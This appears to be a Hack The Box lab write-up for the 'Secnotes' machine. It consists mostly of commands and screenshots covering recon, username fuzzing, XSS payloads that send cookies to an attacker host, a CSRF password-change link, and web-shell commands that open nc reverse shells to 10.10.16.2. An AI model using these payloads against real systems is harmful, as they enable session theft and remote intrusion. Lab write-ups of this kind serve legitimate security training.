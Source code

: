 # Secnotes Hack The Box Tips

# ${\color{purple}Initial Recon}\ $

``nmap -sC -sV -oA secnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884008-60c410d5-2f11-4ba0-9ca0-4e923373cffc.png)

``nmap -p- -sV -oA fullsecnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884018-91569f20-cedb-46b9-9601-867252fa1fb7.png)

``nmap -p 8808 10.10.10.97 -sC -sV``

![image](https://user-images.githubusercontent.com/123066149/222884064-c39d198f-5031-4133-b41a-ef1cdf261e42.png)

``wfuzz -c -w /opt/seclists/Usernames/Names/names.txt -d"username=FUZZ&password=azeazeazeaze" --hs "No account found with that username." http://10.10.10.97/login.php``

``gobuster dir -u http://10.10.10.97/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,asp,a
spx,txt``

![image](https://user-images.githubusercontent.com/123066149/222884045-90de364f-d65c-40aa-803e-7cef2ac312ef.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/222884398-3d10dbcb-9038-4dc5-88a3-5a2f0386419e.png)

![image](https://user-images.githubusercontent.com/123066149/222884441-4976e0f1-db29-46d6-a53d-79efe6cbf118.png)

![image](https://user-images.githubusercontent.com/123066149/222884462-7bd86f37-7fc8-4a1e-9c5f-f3048c40eb2e.png)

![image](https://user-images.githubusercontent.com/123066149/222884505-b9b91d4c-2550-41d4-8777-40bfc4c59c08.png)

![image](https://user-images.githubusercontent.com/123066149/222885036-d2586f9f-8521-41c2-8284-60592b21eaa6.png)

![image](https://user-images.githubusercontent.com/123066149/222885060-cdfe8f36-f9ad-4354-b31f-9a3b648ebf32.png)

![image](https://user-images.githubusercontent.com/123066149/222885186-d35f0e8f-99ea-4de2-9793-959ec4bdd345.png)

``azeazeaz<h1>MONKMODE</h1>zeeaze``
``<img src=http://10.10.16.2:800/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.2'$IFS'2222')>``
``<script> window.open(‘http://10.10.16.2:800/xss.php?a=’+document.cookie) </script>``
``<script> window.open(‘http://votresite.com/xss.php?a=’+document.cookie) </script>``
``<img src=http://10.10.16.2:800/?cookie='+document.cookie)>``

![ssrf](https://user-images.githubusercontent.com/123066149/222884580-628295fc-cbd2-4641-bada-5f93810077c1.PNG)

``<img src=(http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit)>``

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``

![requet](https://user-images.githubusercontent.com/123066149/222884690-fc91298e-7252-4aa9-a2f3-8fef8ac1cf10.PNG)

``http://10.10.16.2:50/tryfortest.txt``                                     
                                        
![image](https://user-images.githubusercontent.com/123066149/222884761-67e09b9e-ee7f-4044-bb1c-2eb4799a02c3.png)
 
``nc -nvlp 50``
                                      
![3](https://user-images.githubusercontent.com/123066149/222884822-c8321bea-a8d3-41e0-9197-9e47b8e207d0.PNG)

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``                                        
                                        
![4](https://user-images.githubusercontent.com/123066149/222884881-42e06240-3c2a-4363-a374-c092f925050b.PNG)
                                        
![image](https://user-images.githubusercontent.com/123066149/222884939-5aca6d35-a3a1-44d2-be32-765eb2e3c451.png)                                       
                                        
# ${{\color{purple}Exploitation}}\ $
 
``smbclient -U 'tyler' //10.10.10.97/new-site``                                      
                                        
![image](https://user-images.githubusercontent.com/123066149/222890282-4e9f5ae1-159c-47cc-a0e1-7b94954f5a50.png)
                                    
![image](https://user-images.githubusercontent.com/123066149/222890258-a516a07a-8ed6-4541-ad06-7f976eb74288.png)

``http://10.10.10.97:8808/php_cmd.php?cmd=nc.exe%2010.10.16.2%201234%20-e%20cmd.exe``
                    
![image](https://user-images.githubusercontent.com/123066149/222890342-17ee1e4c-bf9b-4796-9ea5-4256f7e1ead0.png)
 
![image](https://user-images.githubusercontent.com/123066149/222890381-e2f09cd0-4d2b-4535-bf1c-8c565d380b14.png)
                   
# ${{\color{purple}Privilege Escalation}}\ $
                    
![image](https://user-images.githubusercontent.com/123066149/222890424-70d67952-7335-4f72-bb1e-c7449659e818.png)
                    
 ![image](https://user-images.githubusercontent.com/123066149/222891298-07eeb349-09d1-495e-b025-1408516d3f6b.png)                   

# ${{\color{purple}Points of Improvement}}\ $


